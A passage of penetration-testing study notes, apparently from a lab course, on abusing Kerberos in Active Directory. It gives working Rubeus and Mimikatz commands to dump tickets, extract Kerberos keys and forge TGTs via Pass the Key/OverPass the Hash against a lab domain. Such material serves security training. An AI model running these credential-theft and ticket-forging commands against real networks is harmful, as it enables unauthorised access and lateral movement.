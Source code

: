We can also export tickets using `Rubeus` and the option `dump`. This option can be used to dump all tickets (if running as a local administrator). `Rubeus dump`, instead of giving us a file, will print the ticket <mark class="hltr-green">encoded in base64 format</mark>. We are adding the option `/nowrap` for easier copy-paste.

```cmd-session
c:\tools> Rubeus.exe dump /nowrap
```

### <mark class="hltr-orange">Pass The Key or OverPass The Hash</mark>

Another advantage of abusing Kerberos tickets is the ability to forge our own tickets. Let's see how we can do this using the `OverPass the Hash or Pass the Key` technique.

The traditional `Pass the Hash (PtH)` technique involves reusing an NTLM password hash that doesn't touch Kerberos. The `Pass the Key` or `OverPass the Hash` approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.

#### <mark class="hltr-grey">Mimikatz - Extract Kerberos Keys</mark>

```
C:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.

#### <mark class="hltr-grey">Mimikatz - Pass the Key or OverPass the Hash</mark>

```
C:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

#### <mark class="hltr-grey">Rubeus - Pass the Key or OverPass the Hash</mark>

To forge a ticket using `Rubeus`, we can use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`. In the following example, we use the aes256 hash from the information we collect using Mimikatz `sekurlsa::ekeys`.

```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```


**Note❗:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

### <mark class="hltr-orange">Pass The Ticket (PtT)</mark>
